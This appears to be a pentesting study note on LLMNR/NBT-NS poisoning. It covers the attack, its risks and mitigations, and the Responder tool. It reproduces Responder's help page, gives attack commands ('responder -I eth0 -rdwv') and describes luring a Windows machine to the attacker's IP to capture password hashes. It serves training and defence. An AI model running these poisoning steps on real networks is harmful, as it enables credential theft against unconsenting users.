### Overview
LLMNR (Link-Local Multicast Name Resolution) poisoning, also known as NBT-NS (NetBIOS Name Service) poisoning, is a type of cyber attack that exploits a weakness in the way Windows systems resolve hostnames to IP addresses. LLMNR is a protocol used by Windows devices to resolve the names of neighboring devices on the same local network when the DNS (Domain Name System) resolution fails.

#### Process
1. When a Windows device wants to resolve the IP address of a hostname but cannot find it through DNS, it sends an LLMNR query to the local network, asking if any other device knows the IP address for the given hostname.
2. An attacker can take advantage of this situation by intercepting LLMNR queries and responding with a fake response. The attacker may forge a response, claiming to be the device with the requested hostname and providing a malicious IP address.
3. The requesting Windows device, unaware of the attack, accepts the malicious response and uses the attacker's IP address, thinking it is the legitimate device's IP.
    
#### Risks
1. Man-in-the-Middle (MITM) attacks: The attacker can intercept traffic between two devices and potentially steal sensitive information or modify the communication.
2. SMB Relay attacks: The attacker can use the poisoned LLMNR responses to relay authentication requests to a remote system, gaining unauthorized access.
3. Credential theft: By redirecting LLMNR queries to malicious systems, attackers can capture user credentials and other sensitive data.
4. Denial of Service (DoS): LLMNR poisoning can be used to disrupt network communications by causing conflicts and confusions among devices.

#### Mitigation
- Disable LLMNR on all Windows devices where it's not needed, especially on public or untrusted networks.
- Use DNS over HTTPS (DoH) or DNS over TLS (DoT) to encrypt DNS traffic.
- Implement secure authentication mechanisms to prevent SMB relay attacks.
- Regularly update and patch operating systems and network devices to fix potential vulnerabilities.
![[LLMNR Mitigation.png]]

#### Simple Slides Explanation
![[16.1. LLMNR Poisoning Overview.pdf]]

### Responder
Responder is a popular open-source security tool used in penetration testing and ethical hacking. Its main purpose is to perform various network-based attacks to capture and relay authentication credentials, mainly targeting Windows environments. Responder takes advantage of weaknesses in different protocols like LLMNR, NBT-NS, and mDNS (Multicast DNS) to gather credentials and conduct Man-in-the-Middle (MITM) attacks.

#### Features
1. **LLMNR/NBT-NS Poisoning**: Responder responds to LLMNR and NBT-NS queries on the local network and impersonates the target device, capturing credentials in the process.
2. **WPAD Spoofing**: Responder can spoof the Web Proxy Auto-Discovery (WPAD) protocol, tricking devices into sending their authentication data to the attacker's machine.
3. **SMB Relay**: The tool can capture authentication requests and relay them to other systems, potentially gaining unauthorized access to resources.
4. **NTLMv1/NTLMv2 Hash Capture**: Responder can capture and extract NTLMv1 and NTLMv2 hashes from authentication attempts, which can be later cracked to obtain plaintext passwords.
5. **mDNS Poisoning**: Responder can spoof mDNS responses to gather information about the devices on the local network.

#### Usage
1. **Installation:** Responder is usually installed on a machine (Kali Linux or any other compatible distribution) dedicated to penetration testing.
2. **Configure Network Interface:** Set up the network interface to be used for the attack (e.g., eth0).
3. **Start Responder:** Open a terminal and run the Responder tool with the appropriate command-line options.
	```bash
	sudo responder -I eth0
	```
	- The `-I` flag specifies the interface to use.
4. **Monitor the Results:** Responder will start capturing and logging authentication attempts and credentials in real-time.
5. **Retrieve Credentials:** Once Responder captures authentication data, it will store hashes and plaintext passwords in the logs. The penetration tester can later analyze the logs to retrieve the harvested credentials.

#### Help Page
```bash
                                        __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD does not need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```
### Attack Process
```bash
$ responder -I eth0 -rdwv

[+] Listening For Events ...
```

##### Connect From Windows to Hacker Machine
In the Path Bar Type: **//<Hacker_Machine_IP>**

##### Return to Hacker Machine
This will connect the Victim Machine to the Attacker Machine and return its password hash
